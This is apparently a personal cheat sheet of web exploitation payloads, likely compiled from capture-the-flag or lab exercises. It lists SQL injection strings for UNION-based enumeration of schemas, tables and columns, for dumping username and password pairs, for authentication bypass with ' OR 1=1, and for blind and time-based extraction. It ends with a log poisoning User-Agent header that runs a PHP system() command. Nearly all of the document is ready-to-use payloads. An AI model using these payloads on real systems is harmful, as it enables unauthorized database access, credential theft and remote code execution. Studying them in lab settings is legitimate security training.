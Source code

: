 
# Web Exploitation

---------------------------------------------------------------------------
## Sql Injection
- ###  Select
```
select * from users; 
```
```
select username,password from users;
```
```
select * from users where username='admin';
```
```
select * from users where username='admin' or username='jon';
```
```
select * from users where username like 'ad%';
```
- ### Union  

```
0 UNION SELECT 1,2,3
```
```
0 UNION SELECT 1,2,database()
```
```
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```
```
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```
```
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
```

```

- ###  Authentication Bypass   
```
' OR 1=1;--
```
- ### Blind SQLI
```
admin123' UNION SELECT 1,2,3;-- 
```
```
admin123' UNION SELECT 1,2,3 where database() like '%';--

```
```
admin123' UNION SELECT 1,2,3 from users where username like 'a%
```
```
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
```

- ### Time Based SQLI
```
admin123' UNION SELECT SLEEP(5),2;--
```

```
admin123' UNION SELECT SLEEP(5),2 from users where username like 'admin' and password like '4961';
```
---------------------------------------------------------------------------
## Log Poisoing

```
'User-Agent': "<?php system('ls -l /');?>" 
```
Reference :
[toxic](https://shakuganz.com/2021/05/29/hackthebox-toxic-write-up/)
